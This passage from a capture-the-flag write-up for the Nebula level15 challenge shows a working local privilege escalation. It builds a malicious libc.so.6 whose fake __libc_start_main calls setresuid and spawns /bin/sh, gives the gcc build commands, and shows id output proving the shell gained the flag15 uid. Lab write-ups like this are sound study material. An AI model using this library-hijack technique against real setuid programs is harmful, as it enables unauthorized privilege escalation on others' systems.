 Ok, in the lst lines, we can see that the symbol **__libc_start_main** was found on our injected library, but the symbol **system** is nowhere to be found. We can compile our library statically so it includes all the dependencies it needs:

```lang-bash line-numbers 
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 shell.c
level15@nebula:/var/tmp/flag15$ ./flag15
sh-4.2$ id
uid=1016(level15) gid=1016(level15) groups=1016(level15)
```

Nice, it worked! now, lets try it with the original setuid binary:

```lang-bash line-numbers 
sh-4.2$ id
uid=1016(level15) gid=1016(level15) euid=984(flag15) groups=984(flag15),1016(level15)
```

Oopps effective uid is **flag15** but we are still **level15**, we forgot to apply the effective uid before calling to system, lets add a **setresuid()** call to set the effective uid as real one:

```lang-bash line-numbers 
level15@nebula:/var/tmp/flag15$ cat shell.c
#include <linux/unistd.h>

void __cxa_finalize (void *d) {
    return;
}

int __libc_start_main(int (*main) (int, char **, char **), int argc, char *argv, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void *stack_end) {
  setresuid(geteuid(),geteuid(),geteuid());
  system("/bin/sh");
}
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 shell.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
sh-4.2$ id
uid=984(flag15) gid=1016(level15) groups=984(flag15),1016(level15)
```

Voila!
